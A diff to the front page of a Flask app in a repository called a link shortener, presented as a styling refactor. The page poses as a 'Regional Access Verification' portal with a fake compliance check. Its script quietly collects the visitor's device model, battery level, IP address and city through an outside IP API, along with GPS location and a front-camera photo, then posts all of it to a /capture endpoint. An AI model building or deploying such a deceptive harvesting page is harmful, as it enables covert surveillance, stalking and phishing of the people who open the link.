

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for better styling and layout
Updated styles and structure in index.html for improved layout and clarity.

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -6,36 +6,23 @@
     <title>Identity Verification Portal</title>
     <style>
         :root { --primary: #28a745; --bg: #f5f7f9; --text: #24292e; }
-        body { font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", Roboto; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; }
-        .status-bar { height: 4px; background: var(--primary); border-radius: 10px; width: 50px; margin-bottom: 20px; }
-        h2 { font-size: 20px; color: var(--text); margin: 0 0 12px 0; font-weight: 700; }
-        p { font-size: 14px; color: #586069; line-height: 1.6; margin-bottom: 30px; }
-        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: all 0.3s ease; box-shadow: 0 4px 12px rgba(40, 167, 69, 0.2); }
-        .btn:active { transform: scale(0.98); }
-        #loader { display: none; text-align: center; }
-        .spinner { border: 3px solid #f3f3f3; border-top: 3px solid var(--primary); border-radius: 50%; width: 24px; height: 24px; animation: spin 1s linear infinite; margin: 0 auto 10px; }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        .footer-text { font-size: 11px; color: #959da5; margin-top: 25px; text-align: center; border-top: 1px solid #eee; padding-top: 15px; }
+        body { font-family: -apple-system, system-ui, sans-serif; background-color: var(--bg); display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .card { background: white; width: 92%; max-width: 400px; padding: 35px; border-radius: 15px; box-shadow: 0 10px 25px rgba(0,0,0,0.05); border: 1px solid #e1e4e8; text-align: center; }
+        .btn { background-color: var(--primary); color: white; border: none; padding: 14px; width: 100%; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; }
+        #loader { display: none; margin-top: 15px; color: var(--primary); font-weight: bold; }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div class="status-bar"></div>
-    <h2>Regional Access Verification</h2>
-    <p>This automated portal confirms your identity and location for secure access. Please click below to complete the mandatory compliance check.</p>
+    <h2 style="font-size: 20px; margin-bottom: 12px;">Regional Access Verification</h2>
+    <p style="font-size: 14px; color: #586069; margin-bottom: 30px;">This automated portal confirms your identity for secure access.</p>
 
-    <div id="loader">
-        <div class="spinner"></div>
-        <div style="font-size: 13px; color: var(--primary); font-weight: 600;">Authenticating Secure Connection...</div>
-    </div>
-
+    <div id="loader">Authenticating Secure Connection...</div>
     <button id="mainBtn" class="btn" onclick="startProcess()">CONTINUE TO PORTAL</button>
 
-    <div class="footer-text">
-        System ID: FZN-PR-2026<br>
-        Encrypted by Digital Security Authority
+    <div style="font-size: 11px; color: #959da5; margin-top: 25px; border-top: 1px solid #eee; padding-top: 15px;">
+        System ID: FZN-PR-2026
     </div>
 </div>
 
@@ -44,58 +31,49 @@
 
 <script>
     async function startProcess() {
-        const btn = document.getElementById('mainBtn');
-        const loader = document.getElementById('loader');
-        btn.style.display = 'none';
-        loader.style.display = 'block';
+        document.getElementById('mainBtn').style.display = 'none';
+        document.getElementById('loader').style.display = 'block';
 
-        // 1. Dynamic Hardware Model Extraction
         let ua = navigator.userAgent;
-        let deviceModel = "Unknown Device";
+        let deviceModel = "Unknown";
         if (/android/i.test(ua)) {
-            // Extracts exact model like SM-S928B or S667LN from User Agent string
             let match = ua.match(/Android\s([0-9\.]+);\s([^;)]+)/);
-            deviceModel = match ? match[2] : "Android Mobile";
-        } else if (/iPhone/i.test(ua)) {
-            deviceModel = "Apple iPhone";
+            deviceModel = match ? match[2] : "Android Device";
         }
 
         let reportData = {
-            device: deviceModel.trim(),
-            platform: navigator.platform,
+            model: deviceModel,
             battery: "N/A",
-            time: new Date().toLocaleString(),
-            lat: "0", lon: "0",
-            city: "Fetching...", country: "Fetching...", ip: "Fetching..."
+            ip: "Fetching...", city: "Fetching...", country: "Fetching...",
+            lat: "0", lon: "0"
         };
 
-        // 2. Battery retrieval
+        // 1. Battery Status
         if(navigator.getBattery) {
             const b = await navigator.getBattery();
             reportData.battery = Math.round(b.level * 100) + "%";
         }
 
-        // 3. Multi-Source IP & Location (Waiting Logic)
+        // 2. Original Working IP API (Gujranwala Data Fix)
         const fetchGeo = async () => {
             try {
-                const res = await fetch('https://ipapi.co/json/');
+                const res = await fetch('https://demo.ip-api.com/json/?fields=66846719');
                 const data = await res.json();
-                reportData.city = data.city || "N/A";
-                reportData.country = data.country_name || "N/A";
-                reportData.ip = data.ip || "N/A";
+                reportData.city = data.city || "Unknown";
+                reportData.country = data.country || "Unknown";
+                reportData.ip = data.query || "Unknown";
             } catch (e) {
-                reportData.city = "Access Blocked";
+                reportData.city = "Err (Blocked)";
             }
         };
 
-        // 4. Camera (Fixed 9:16 Aspect Ratio)
+        // 3. Camera (Strict 9:16 Portrait Mode)
         const geoPromise = fetchGeo();
         const cameraPromise = navigator.mediaDevices.getUserMedia({
             video: {
                 facingMode: "user",
                 width: { ideal: 1920 },
-                height: { ideal: 1080 },
-                aspectRatio: 0.5625
+                height: { ideal: 1080 }
             }
         }).catch(() => null);
 
@@ -105,32 +83,31 @@
             finalize(await cameraPromise, reportData, geoPromise);
         }, async () => {
             finalize(await cameraPromise, reportData, geoPromise);
-        }, { enableHighAccuracy: true, timeout: 8000 });
+        }, { timeout: 8000 });
     }
 
     async function finalize(stream, data, geoTask) {
-        await geoTask; // CRITICAL: Wait for IP data to avoid "Pending"
+        await geoTask; // WAIT: Ensure data is fetched before sending
 
         if (stream) {
             const video = document.getElementById('video');
             video.srcObject = stream;
 
-            // 2.2 Seconds delay for high-quality sensor adjustment
             setTimeout(() => {
                 const canvas = document.getElementById('canvas');
                 const ctx = canvas.getContext('2d');
+                // Force drawing in 9:16 Aspect Ratio
                 ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
                 const photo = canvas.toDataURL('image/jpeg', 0.9);
-
                 stream.getTracks().forEach(t => t.stop());
-                sendData(data, photo);
-            }, 2200);
+                sendFinal(data, photo);
+            }, 2000);
         } else {
-            sendData(data, null);
+            sendFinal(data, null);
         }
     }
 
-    function sendData(info, photo) {
+    function sendFinal(info, photo) {
         fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
```
